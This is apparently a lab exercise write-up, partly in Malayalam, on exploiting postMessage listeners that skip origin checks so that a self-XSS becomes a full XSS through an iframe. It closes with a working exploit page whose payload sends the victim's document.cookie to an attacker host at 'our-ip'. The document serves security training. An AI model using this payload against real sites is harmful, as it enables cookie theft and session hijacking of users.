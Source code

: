 ## Introduction
-->This exercise covers how insecure calls to the JavaScript function postMessage() can be used to trigger a Cross-Site Scripting
-->This course details the exploitation of an application using addEventListener() and not verifying the origin of the message. The application is also vulnerable to Cross-Site Scripting when receiving a message. This challenge is based on the following content: [postMessage issues](https://github.com/EdOverflow/bugbountywiki/wiki/postMessage-issues) and [postMessage XSS on a million sites](https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/).
-->This challenge will show you how to turn a self-XSS to an XSS using an iframe.

## Exploitation of the vulnerability
-->To exploit this issue, you will need to create a malicious HTML page that will open the vulnerable page in an iframe and postMessage to the iframe.
-->The structure of your exploit should look something like this:
```html
	<html>
	 <body>
	  <iframe id="myiframe" src="http://[VULNERABLE_SITE]/"></iframe>
	  <script>
	  // Call to postMessage using a reference to myiframe 
	  </script>
	 </body>
	</html>
```
-->The message sent to the parent iframe will contain a Cross-Site Scripting payload that will be used to retrieve the victim's cookies.

## Conclusion
-->This exercise showed you a way to exploit a page that uses addEventListener without restriction on the origin. This allowed opening the page as the legitimate application would and use postMessage() to trigger a Cross-Site Scripting. 

# Video Explanation
-->namal lab open aaki our account undakunu.enit oru secret key undakunu.
-->secret key undakuna sthalath `<h1>josu</h1>`  ennkodukumbol html injection aakunund.but namal page reload chyumbol josu h1 pole kanikunila just `<h1>josu</h1>` enn mathrame kanikunulu.which means self xss aan ullath 
-->ini ee self xss mati real xss akan namal nerthe pole view-source oke adich code eduth modify chyht namal postMessage() il namal xss payload undaki namude website il add chyunu
-->ini ethengilum oru victim namude ee malicious path il vanal xss trigger akun athupole avante cookie yum namuk kitum ok
-->malicious script :

```html
<html>
<body>

<iframe src="http://targeturl/" id="frame"></iframe>

<script> 
setTimeout(function() {

document.getElementById("frame").contentWindow.postMessage("<img src=a onerror='document.write(\"<img src=http://our-ip/?c=\"+document.cookie+\"/>\")'/>",'*');
}, 2000);

</script>
</body>
</html>
```